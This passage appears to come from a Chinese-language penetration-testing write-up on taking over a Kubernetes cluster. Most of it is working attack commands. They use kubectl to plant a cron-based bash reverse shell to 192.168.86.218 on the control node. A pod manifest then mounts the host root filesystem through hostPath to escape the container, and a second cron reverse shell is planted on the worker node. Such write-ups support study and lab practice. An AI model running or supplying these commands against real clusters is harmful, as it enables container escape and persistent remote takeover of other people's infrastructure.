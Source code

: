 ```shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a exec control-master-x231 -- bash -c "echo -e '* * * * * root bash -i >& /dev/tcp/192.168.86.218/6677 0>&1\\n' >> /master/etc/crontab"
```

<div align=center><img width="1000" src="/img/image-20231015191953704.png" div align=center/></div></br>

<div align=center><img width="700" src="/img/image-20231015192029551.png" div align=center/></div></br>

拿到 master 机器权限

这个时候我们可以下发任务，进行逃逸拿到真实机器权限

```yaml
cat > x.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: node2
spec:
  nodeName: node2
  containers:
  - image: nginx
    name: test-container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
EOF
```

> nodeName 节点名字
>
> kubectl get node -o wide 查看node信息
>
> kubectl create -f x.yaml 下发任务
>
> kubectl get pods -o wide 查看node信息
>
> kubectl delete -f x.yaml 删除pod

<div align=center><img width="1000" src="/img/image-20231015192230299.png" div align=center/></div></br>

<div align=center><img width="700" src="/img/image-20231015192953175.png" div align=center/></div></br>

<div align=center><img width="900" src="/img/image-20231015193018428.png" div align=center/></div></br>

下发成功，开始挂载逃逸

```shell
kubectl exec node2 -- bash -c "echo -e '* * * * * root bash -i >& /dev/tcp/192.168.86.218/6612 0>&1\\n' >> /mnt/etc/crontab"
kubectl exec node1 -- bash -c "cat /mnt/etc/crontab"
```
